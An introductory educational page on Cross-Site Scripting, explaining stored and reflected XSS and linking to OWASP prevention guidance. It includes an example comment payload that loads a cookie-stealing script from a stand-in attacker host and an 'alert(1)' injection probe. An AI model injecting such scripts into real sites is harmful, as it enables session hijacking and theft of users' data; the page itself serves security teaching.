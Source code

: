 ```yaml
---
date: 2018-08-10
title: XSS
categories:
  - security
description:
type: Document
set: security
set_order: 2
---
```


## General information

Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign
and trusted websites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the
form of a browser side script, to a different end user. A successful cross site scripting attack can have devastating consequences for an online business’s reputation and its relationship with its clients.

Depending on the severity of the attack, user accounts may be compromised, Trojan horse programs activated and page content modified, misleading users into willingly surrendering their private data. Finally, session cookies could be revealed, enabling a perpetrator to impersonate valid users and abuse their private accounts.

## XSS types

There are 2 types of XSS vulnerabilities:

* Stored
* Reflected

Stored XSS, also known as persistent XSS, is the more damaging of the two. It occurs when a malicious script is injected directly into a vulnerable web application.

Reflected XSS involves the reflecting of a malicious script off of a web application, onto a user’s browser. The script is embedded into a link, and is only activated once that link is clicked on.

## Basic examples

While browsing an e-commerce website, a perpetrator discovers a vulnerability that allows HTML tags to be embedded in the site’s comments section. The embedded tags become a permanent feature of the page, causing the browser to parse them with the rest of the source code every time the page is opened.

The attacker adds the following comment: Great price for a great item! Read my review here <script src=”http://hackersite.com/authstealer.js”> </script>.

From this point on, every time the page is accessed, the HTML tag in the comment will activate a JavaScript file, which is hosted on another site, and has the ability to steal visitors’ session cookies.

Using the session cookie, the attacker can compromise the visitor’s account, granting him easy access to his personal information and credit card data. Meanwhile, the visitor, who may never have even scrolled down to the comments section, is not aware that the attack took place.

Now let's consider reflected XSS attack example. Imagine that you have input field which allows you to perform search on the site. You input something like <script>alert(1)</script>foo into it and hit enter. On a vulnerable site, that entire parameter will get injected into the error page that pops up, the javascript will execute, and you'll get a popup in addition to the "Resource foo is not found" message. If you can induce somebody else navigate to the same link that you crafted, you can execute arbitrary javascript in their session.

## What's next?

Here are some useful links to expand your knowledge:
* Extended info about how to prevent XSS is listed on [OWASP article](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet);
* General [article](https://www.incapsula.com/web-application-security/cross-site-scripting-xss-attacks.html) about XSS attacks with explanation of some mitigation techniques for this vulnerability;
* More practical example listed [here](https://www.thegeekstuff.com/2012/02/xss-attack-examples/?utm_source=tuicool);
* [Free online source](https://alf.nu/alert1) to practise your skills. 
